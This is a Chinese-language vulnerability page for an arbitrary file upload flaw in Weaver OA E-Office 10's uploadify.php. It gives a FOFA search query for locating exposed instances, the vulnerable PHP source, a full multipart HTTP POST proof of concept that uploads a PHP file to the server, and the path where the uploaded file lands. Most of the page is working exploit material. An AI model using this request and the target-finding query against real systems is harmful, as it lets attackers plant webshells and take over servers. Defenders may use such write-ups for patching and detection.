

# 泛微OA E-Office uploadify 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office 在 uploadify.php 中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

<a-checkbox checked>泛微OA E-Office10</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面


```php
<?php
include_once("inc/vulnerability.php");
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    //获取扩展名
    if (!strrpos($tempFile, ".")) {
        echo "";
        exit;
    }
    $fileExt = substr($tempFile, strrpos($tempFile, ".") + 1);
    $attachmentID = createFileDir();
    $uploadPath = $_REQUEST["uploadPath"];

    if (trim($uploadPath) == "") {
        $targetPath = $_SERVER['DOCUMENT_ROOT'] . '/attachment/' . $attachmentID;
    } else {
        $targetPath = $uploadPath . '/sent/attachment/' . $attachmentID;
    }

    if (!file_exists($targetPath)) {
        mkdir($targetPath, 0777, true);
    }

    $targetFile = str_replace('//', '/', $targetPath) . "/" . $_FILES['Filedata']['name'];
    isIllegalUploadFile($targetFile);
    move_uploaded_file($tempFile, iconv("UTF-8", "GBK", $targetFile));
    echo $attachmentID;
}

function createFileDir() {
    global $ATTACH_PATH;
    mt_srand((double) microtime() * 1000000);
    $RADOM_ID = mt_rand() + mt_rand();
    if (!file_exists($ATTACH_PATH . $RADOM_ID))
        return $RADOM_ID;
    else
        createFileDir();
}

?>
```

验证POC

```php
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 259
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```



```php
/attachment/3466744850/xxx.php
```